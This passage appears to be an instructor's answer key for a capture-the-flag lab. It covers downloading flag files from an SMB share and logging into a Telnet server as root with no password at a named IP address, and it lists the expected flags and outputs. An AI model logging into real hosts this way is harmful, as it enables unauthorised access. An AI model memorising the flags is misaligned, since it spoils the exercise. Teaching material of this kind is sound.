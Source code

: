 ```
smb: \thisisnot\> cd ../thisisnot
smb: \thisisnot\> ls
  .                                   D        0  Jan 01 12:00:00
  ..                                   D        0  Jan 01 12:00:00
  flag.txt                            N       25  Jan 01 12:00:00

smb: \thisisnot\> get flag.txt
getting file \thisisnot\flag.txt of size 25 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

**What Students Should Do:**
- Connect to SMB credentials share
- Navigate through all three folders
- Download flags from each folder
- Identify the correct flag (from thisisnot folder)

---

## **Question 4: Telnet Flag Retrieval**
**Question:** Telnet flag (connect using root without password, there are 2 flags - find the correct one)

**Expected Answer:** `FLAG{telnet_root_flag}`

**Methodology:**
1. **Connect to Telnet:** Use telnet client to connect to target
2. **Root Login:** Login as root without password
3. **File Exploration:** Find and examine both flag files
4. **Flag Identification:** Determine which flag is correct

**Commands to Use:**
```bash
# Connect to telnet
telnet 13.62.104.182

# Login: root
# Password: (none required)

# List files
ls -la
cat flag_correct.txt  # This is the correct answer
cat flag_wrong.txt    # This is the wrong flag
```

**Expected Output:**
```
Trying 13.62.104.182...
Connected to 13.62.104.182.
Escape character is '^]'.

Welcome to CTF Lab Telnet Server
login: root
Password: 
Welcome root!

root@ctf-lab:~$ ls -la
total 16
drwxr-xr-x 2 telnetuser telnetuser 4096 Jan 01 12:00 .
drwxr-xr-x 3 root       root       4096 Jan 01 12:00 ..
-rw-r--r-- 1 telnetuser telnetuser   25 Jan 01 12:00 flag_correct.txt
-rw-r--r-- 1 telnetuser telnetuser   25 Jan 01 12:00 flag_wrong.txt

root@ctf-lab:~$ cat flag_correct.txt
FLAG{telnet_root_flag}
```